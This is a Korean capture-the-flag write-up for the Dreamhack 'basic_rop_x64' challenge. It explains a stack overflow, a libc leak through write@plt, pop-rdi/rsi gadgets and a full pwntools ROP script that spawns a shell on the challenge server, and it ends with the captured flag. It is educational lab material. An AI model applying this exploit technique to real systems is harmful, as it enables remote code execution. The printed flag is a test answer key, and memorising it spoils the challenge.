



# B2 · basic_rop_x64

> 같은 `basic_rop` 문제의 **64비트 버전**이다. 공격 논리(libc leak → `system("/bin/sh")`)는 [basic_rop_x86](./B2%20basic_rop_x86.md)과 똑같고, **인자를 스택이 아니라 레지스터로 넘기는 것**만 다르다. 그래서 이 글은 **x86과의 차이 + 레지스터 전달 + leak 받는 구조**에 집중한다.

### 1. 문제 확인

<p align="center">
  
</p>

### 2. 코드

```c
// basic_rop_x64.c
int main(void) {
  char buf[0x40] = {};

  initialize();
  read(0, buf, 0x400);          // (1) 0x40 버퍼에 0x400 입력 → 오버플로
  write(1, buf, sizeof(buf));   // (2) buf 0x40바이트를 그대로 출력 → leak 창구
  return 0;
}
```

x86 버전과 **소스는 사실상 동일**하다. `buf`는 `0x40`인데 `read`로 `0x400`을 받으므로 **반환 주소까지 덮을 수 있고**, 바로 뒤의 `write`가 **buf를 화면에 그대로 출력**해 준다. 바이너리에 `system`·`"/bin/sh"`가 없으니 **libc 주소를 leak해서** `system("/bin/sh")`을 호출하는 2단계 ROP로 간다.

### 3. 익스플로잇 코드

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *

p = remote("host3.dreamhack.games", 20526)

e = context.binary = ELF("./basic_rop_x64", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
rop = ROP(e)

offset = 0x48
read_got  = e.got["read"]
write_plt = e.plt["write"]
main      = e.symbols["main"]

read_offset   = libc.symbols["read"]
system_offset = libc.symbols["system"]
exit_offset   = libc.symbols["exit"]
binsh_offset  = next(libc.search(b"/bin/sh"))

pop_rdi     = rop.find_gadget(["pop rdi", "ret"]).address
pop_rsi_r15 = rop.find_gadget(["pop rsi", "pop r15", "ret"]).address
ret         = rop.find_gadget(["ret"]).address

# Stage 1: write(1, read@got, 0x40) → main 복귀
payload  = b"A" * offset
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(write_plt)
payload += p64(main)
p.send(payload)

p.recvuntil(b"A" * 0x40)
read_addr = u64(p.recvn(8))
p.recvn(0x40 - 8)

libc_base = read_addr - read_offset
system = libc_base + system_offset
exit   = libc_base + exit_offset
binsh  = libc_base + binsh_offset

# Stage 2: system("/bin/sh")
payload  = b"A" * offset
payload += p64(pop_rdi) + p64(binsh)
payload += p64(system)
payload += p64(exit)
p.send(payload)

p.recvuntil(b"A" * 0x40)
p.interactive()
```

> `offset = 0x48`은 x86과 동일하게 **buf(0x40) + SFP(0x8)** = 반환 주소까지의 거리다. (유도 과정은 [basic_rop_x86](./B2%20basic_rop_x86.md) 참고.)
>
> **정렬**: x86과 달리 x64는 `system` 진입 시 rsp가 16정렬이어야 하고, 어긋나면 `movaps`에서 죽는다. 보통 `ret` 가젯 하나로 보정하는데, **이 바이너리는 진입 시점이 이미 16정렬이라 `ret` 없이** 바로 `system`을 넣어야 셸이 열린다. (movaps에서 죽으면 넣고, 멀쩡히 열리면 빼는 식으로 맞춘다.)

아래는 이 코드가 x86과 달라지는 부분(레지스터 전달)과 leak을 받는 구조를 본 것이다.

### 4. x86 → x64, 무엇이 달라지나

핵심 차이는 **"인자를 어디로 넘기느냐"** 하나다.

| 구분 | x86 (basic_rop_x86) | x64 (basic_rop_x64) |
|---|---|---|
| 주소 크기 | 4바이트 (`p32` / `u32`) | **8바이트** (`p64` / `u64`) |
| 함수 인자 전달 | **스택**에 값을 쌓음 | **레지스터**(rdi, rsi, rdx …) |
| 인자 세팅 방법 | 복귀주소 뒤에 값 나열 | **`pop` 가젯**으로 레지스터에 적재 |
| leak 수신 크기 | `recvn(4)` | **`recvn(8)`** |
| 스택 정렬 | 신경 안 씀 | movaps 16정렬 (필요 시 `ret` 1개) |

x86은 `write_plt → 복귀주소 → 인자1 → 인자2 → 인자3` 식으로 **스택에 값을 쭉 늘어놓으면** 함수가 알아서 꺼내 썼다. x64는 그게 안 통한다. **인자가 레지스터로 들어가야** 하므로, 값을 레지스터에 **먼저 꽂아 두는 `pop` 가젯**이 필요하다.

### 5. 레지스터로 인자 전달 — `pop` 가젯

x64 함수 호출 규약(System V): 인자는 **rdi, rsi, rdx, rcx, r8, r9** 순으로 레지스터에 담는다. `write(fd, buf, len)`이면 `rdi=fd`, `rsi=buf`, `rdx=len`이다.

```python
pop_rdi     = rop.find_gadget(["pop rdi", "ret"]).address
pop_rsi_r15 = rop.find_gadget(["pop rsi", "pop r15", "ret"]).address
```

- **`pop rdi ; ret`** — 스택 맨 위 값을 `rdi`로 꺼낸다. `rdi=1`(fd)을 세팅.
- **`pop rsi ; pop r15 ; ret`** — `rsi`만 필요한데, 바이너리에 `pop rsi ; ret` 단독 가젯이 없어 보통 **`pop rsi ; pop r15`가 묶인 가젯**을 쓴다. `rsi`를 꺼낼 때 **r15도 어쩔 수 없이 하나 꺼내므로**, r15 자리에는 **버리는 값(0)**을 채운다.

```python
payload += p64(pop_rdi) + p64(1)                      # rdi = 1 (fd=stdout)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)  # rsi = read@got, r15 = 0 (더미)
payload += p64(write_plt)                             # write(1, read@got, rdx)
```

그런데 **3번째 인자 `rdx`(길이)는 따로 세팅하지 않는다.** 바로 앞에서 프로그램 자신이 `write(1, buf, sizeof(buf))` = `write(1, buf, 0x40)`을 실행하면서 **`rdx`에 `0x40`을 이미 넣어 뒀기 때문**이다. 레지스터는 0으로 초기화되지 않고 **직전 값이 그대로 남으므로**, 그 `0x40`을 재활용한다. 그래서 `write(1, read@got, 0x40)`이 완성되어 read의 libc 주소가 출력된다.

> 정리하면 x64 leak 가젯은 **"rdi 세팅 → rsi 세팅(+더미 r15) → write 호출"** 3단이고, rdx는 **프로그램이 남겨 준 값을 빌려 쓴다.**

### 6. leak 받는 구조 — write가 두 번, 8바이트를 받는 이유

이 부분이 x64 leak에서 제일 헷갈린다. **recv로 받는 건 "스택"이 아니라 "write가 출력한 것"**이라는 점이 핵심이다. 스택(buf·SFP·RET)은 서버 메모리에만 있고 우리한테 전송되지 않는다. 오직 `write()`가 stdout으로 뱉은 것만 받는다.

그리고 이 문제에서 **write는 두 번** 일어난다.

```
① 프로그램 원래 write(1, buf, 0x40)   ← main 코드가 알아서 실행 (우리 입력 A를 에코)
② 우리 ROP의 write(1, read@got, 0x40) ← main이 RET 밟으며 실행 (read 주소 leak)
```

**왜 ①이 저절로 실행되나?** 오버플로는 `read`에서 일어나지만, **그 자리에서 바로 하이재킹되는 게 아니다.** RET만 덮어 둘 뿐, 프로그램은 멈추지 않고 **다음 줄 `write`까지 정상 진행**한다. 그러다 **main이 `return`하는 순간** 덮인 RET이 발동해 ②가 실행된다.

```
실행 순서:  read(우리 payload 수신) → ① write(buf) = A 에코 → main return → ② write(read@got) = leak
```

그래서 서버가 보내오는 출력 스트림은 이렇게 생겼다:

```
[ ① A * 0x40 (버퍼 에코) ][ ② read 실제주소 8B | 뒤따르는 GOT 찌꺼기 0x38B ]
         ↑ recvuntil(b"A"*0x40)로 걷어냄        ↑ recvn(8)         ↑ recvn(0x40-8)
```

- **`recvuntil(b"A" * 0x40)`** — ①번, 프로그램이 뱉은 A `0x40`개(에코)를 소비해 **수신 커서를 leak 바로 앞에 맞춘다.** (첫 write 길이가 `sizeof(buf)=0x40`이라 딱 0x40개만 나온다. SFP·RET은 write 범위 밖이라 애초에 전송되지 않는다.)
- **`u64(p.recvn(8))`** — ②번 leak의 **앞 8바이트**가 read의 실제 주소다. **64비트 주소는 8바이트**라 `recvn(8)` + `u64`. (x86이면 주소가 4바이트라 `recvn(4)` + `u32`였다.)
- **`p.recvn(0x40 - 8)`** — ②번 write가 뿌린 나머지 `0x38`바이트(read_got 뒤 메모리 찌꺼기)를 받아 **버퍼를 비운다.** 꼭 필요하진 않지만(다음 `recvuntil`이 걷어냄) 상태를 깔끔하게 유지하는 용도다.

leak한 read 주소로 `libc_base = read_addr - read_offset`을 구하고(ASLR로 매 실행 base가 바뀌므로 **런타임에 알아내야** 한다), `system`·`binsh` 주소를 계산해 Stage 2로 셸을 연다.

### 7. 실행 결과

Stage 1에서 libc를 leak하고 Stage 2로 `system("/bin/sh")`을 호출해 셸을 열어 `cat flag`로 FLAG를 획득한다.

<p align="center">
  
</p>

```text
DH{6311151d71a102eb27195bceb61097c15cd2bcd9fd117fc66293e8c780ae104e}
```
